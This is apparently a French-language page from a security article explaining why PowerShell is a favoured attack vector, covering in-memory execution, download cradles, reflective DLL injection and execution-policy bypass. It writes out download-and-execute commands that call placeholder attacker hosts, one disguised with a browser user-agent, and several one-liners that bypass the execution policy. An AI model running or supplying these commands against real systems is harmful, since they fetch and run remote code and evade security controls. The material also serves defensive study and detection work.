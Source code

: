### Architecture et Capacités Natives

PowerShell constitue un environnement de script extrêmement puissant intégré nativement à Windows depuis Windows 7. Basé sur le framework .NET, il offre un accès privilégié aux API système, à la gestion des processus, aux services réseau et aux mécanismes de sécurité. Cette intégration profonde permet aux attaquants d'accéder à pratiquement tous les aspects du système d'exploitation sans déclencher d'alertes de sécurité traditionnelles.

PowerShell présente plusieurs caractéristiques techniques qui en font un vecteur d'attaque privilégié :

**Exécution en mémoire** : PowerShell peut charger et exécuter du code directement en mémoire sans créer de fichiers sur le disque, rendant la détection forensique particulièrement difficile. Cette capacité permet l'exécution de payloads complets sans laisser de traces permanentes sur le système.

**Accès aux API .NET** : L'intégration native avec le framework .NET permet d'utiliser des classes comme `System.Net.WebClient` pour les communications réseau, `System.Reflection.Assembly` pour le chargement dynamique de code, et `System.Management` pour l'interaction avec WMI.

**Gestion avancée des objets** : Contrairement aux shells traditionnels qui manipulent du texte, PowerShell traite directement les objets .NET, offrant un contrôle granulaire sur les ressources système.

### Techniques d'Attaque Spécialisées

#### Download Cradles et Injection de Code

Les **download cradles** constituent une technique fondamentale pour l'exécution de code distant sans création de fichiers. La syntaxe classique utilise :

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://malicious-server.com/payload.ps1')
```

Cette commande télécharge et exécute immédiatement un script PowerShell distant en mémoire. Les variants modernes utilisent des méthodes plus sophistiquées pour éviter la détection :

```powershell
$wc = New-Object System.Net.WebClient
$wc.Headers.Add("User-Agent","Mozilla/5.0")
IEX $wc.DownloadString("http://c2-server.com/stage2.ps1")
```

#### Réflective DLL Loading

La technique de **Invoke-ReflectivePEInjection** permet de charger des DLL directement en mémoire sans passer par le système de fichiers. Cette méthode exploite les API Windows `VirtualAlloc`, `WriteProcessMemory` et `CreateThread` pour injecter du code dans l'espace d'adressage de processus légitimes.

#### Bypass de l'Execution Policy

PowerShell implémente plusieurs méthodes pour contourner les restrictions d'exécution :

```powershell
powershell -ExecutionPolicy Bypass -Command "IEX (command)"
powershell -ep bypass -c "(command)"
Get-Content script.ps1 | PowerShell.exe -noprofile -
```
